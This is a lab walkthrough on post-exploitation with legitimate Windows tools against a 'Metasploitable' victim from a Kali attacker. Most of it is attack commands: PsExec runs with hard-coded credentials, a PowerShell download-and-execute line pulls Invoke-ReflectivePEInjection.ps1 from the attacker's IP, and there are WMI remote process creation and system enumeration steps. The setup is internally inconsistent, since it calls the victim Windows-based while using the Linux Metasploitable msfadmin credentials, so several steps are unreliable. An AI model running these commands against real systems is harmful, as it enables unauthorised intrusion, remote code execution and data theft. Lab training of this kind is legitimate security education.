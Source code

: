 # Lab 2: Post-Exploitation using Legitimate Utilities and Living-off-the-Land

**Objective:**
This lab focuses on performing post-exploitation tasks on a Windows-based victim machine (Metasploitable) using legitimate utilities like **PsExec**, **PowerShell**, and **PowerSploit**. The goal is to use these tools to gain further access, execute commands, and gather information from the compromised system, all without deploying additional malicious files.

**Attacker Machine: Kali Linux (Example IP: `192.168.78.147`)**  
**Victim Machine: Metasploitable (Example IP: `192.168.78.6`)**

---

### **Overview of Tools:**

- **PsExec**: A Sysinternals tool for executing processes on remote Windows systems.
- **PowerShell**: A scripting language used to automate tasks, useful for performing post-exploitation tasks.
- **PowerSploit**: A collection of PowerShell scripts that can be used for exploitation, exfiltration, and persistence.
- **PowerShell Remoting**: A feature in Windows that allows remote execution of PowerShell commands.
- **Sysinternals Suite**: A collection of powerful utilities for system administration, useful in post-exploitation.

---

### **Task 1: Install PsExec on Kali Linux and Use It to Control the Victim Machine**

#### **1.1 Install PsExec on Kali Linux:**

1. **Download Sysinternals Suite**:
   Open a terminal on Kali and download the Sysinternals Suite:
   ```bash
   wget https://download.sysinternals.com/files/SysinternalsSuite.zip
   ```

2. **Extract the Suite**:
   Extract the downloaded zip file:
   ```bash
   unzip SysinternalsSuite.zip
   ```

3. **Install Wine (for running Windows executables on Linux)**:
   PsExec is a Windows executable, so install Wine to run it:
   ```bash
   sudo apt update
   sudo apt install wine
   ```

4. **Run PsExec Using Wine**:
   Navigate to the extracted Sysinternals folder and run PsExec with Wine:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin cmd.exe
   ```

#### **1.2 Use PsExec to Execute Remote Commands on Metasploitable:**

1. **List Running Processes**:
   After connecting to the victim machine via PsExec, list the running processes to gather information:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin tasklist
   ```

2. **Execute Additional Commands**:
   Try running more commands on the victim system, such as launching `calc.exe` to demonstrate interaction with the victim's desktop:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin -d -i calc.exe
   ```

---

### **Task 2: Install and Use PowerSploit on Kali Linux**

#### **2.1 Clone PowerSploit Repository:**

1. **Clone PowerSploit**:
   Open a terminal and run the following command to clone the PowerSploit repository:
   ```bash
   git clone https://github.com/PowerShellMafia/PowerSploit.git
   ```

2. **Navigate to PowerSploit Directory**:
   Change to the PowerSploit directory:
   ```bash
   cd PowerSploit
   ```

#### **2.2 Serve PowerSploit Scripts Over HTTP:**

1. **Start an HTTP Server to Expose Scripts**:
   In Kali, you can serve the PowerSploit scripts over HTTP using Python:
   ```bash
   sudo python3 -m http.server 1337
   ```

   This will make the scripts accessible at `http://<Kali_IP>:1337`.

#### **2.3 Download and Execute a PowerSploit Script on Metasploitable:**

1. **Download and Execute the Script**:
   On the victim machine (Metasploitable), open PowerShell and run the following command to download and execute a PowerSploit script (e.g., `Invoke-ReflectivePEInjection.ps1`):
   ```powershell
   IEX (New-Object Net.WebClient).DownloadString('http://192.168.78.147:1337/Invoke-ReflectivePEInjection.ps1')
   ```

   This script will be executed remotely on the victim machine, allowing further post-exploitation actions like data exfiltration.

---

### **Task 3: Using PowerShell Remoting for Further Exploitation**

#### **3.1 Enable PowerShell Remoting on Metasploitable:**

1. **Enable Remoting (if needed)**:
   On Metasploitable, open PowerShell and enable PowerShell remoting:
   ```powershell
   Enable-PSRemoting -SkipNetworkProfileCheck -Force
   ```

   This command will allow PowerShell to accept remote connections.

#### **3.2 Connect to Metasploitable Remotely Using PowerShell Remoting:**

1. **Initiate a Remote PowerShell Session**:
   On Kali, initiate a remote PowerShell session to Metasploitable:
   ```powershell
   Enter-PSSession -ComputerName 192.168.78.6 -Credential (Get-Credential)
   ```

   Provide the username and password (`msfadmin:msfadmin`) when prompted.

2. **Execute Commands Remotely**:
   Once connected, you can execute any PowerShell command remotely on the victim machine. For example:
   - Get a list of installed programs:
     ```powershell
     Get-WmiObject -Class Win32_Product
     ```

---

### **Task 4: Using Sysinternals Tools for Post-Exploitation**

#### **4.1 Using PsExec for Remote Process Execution:**

1. **Launch Calculator on the Victim**:
   You can launch the calculator application on the victim system using PsExec:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin -d -i calc.exe
   ```

#### **4.2 Using Other Sysinternals Tools:**

1. **List Logged-In Users**:
   Use PsLoggedOn to list users logged into the victim system:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin PsLoggedOn
   ```

2. **List Running Processes**:
   Use PsList to display running processes:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin PsList
   ```

3. **Pull Event Logs**:
   Use PsLogList to pull event logs from the victim machine:
   ```bash
   wine PsExec.exe \\192.168.78.6 -u msfadmin -p msfadmin PsLogList
   ```

---

### **Task 5: Using Windows Management Instrumentation (WMI) for Post-Exploitation**

#### **5.1 Use WMI to Gather System Information**:

1. **Enumerate System Information**:
   Use the following PowerShell command to gather information about the victim system:
   ```powershell
   Get-WmiObject -Class Win32_OperatingSystem
   ```

2. **Use WMI to Execute Remote Commands**:
   You can also use WMI to execute commands remotely on the victim machine:
   ```powershell
   Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c echo Hello from Kali"
   ```

---

### **Conclusion:**

This lab demonstrates how attackers can use legitimate tools like **PsExec**, **PowerShell**, and **PowerSploit** to perform post-exploitation activities on a Windows-based system (Metasploitable) from a Kali Linux attacker machine. The tools outlined here enable an attacker to execute remote commands, exfiltrate data, and maintain persistence without installing additional malicious software.

By leveraging **living-off-the-land** techniques, attackers can carry out their activities under the radar, using only built-in tools and scripts that are often overlooked by security software.

---

### **Takeaways:**

- **PsExec** allows remote execution of commands on Windows systems.
- **PowerSploit** offers a set of scripts that enable data exfiltration and further exploitation.
- **PowerShell Remoting** provides a secure way to manage systems remotely and can be used for post-exploitation.
- **Sysinternals tools** like PsExec, PsList, and PsLoggedOn help gather detailed information and execute remote commands on a compromised machine.
- **WMI** allows you to automate administrative tasks and interact with the system remotely.
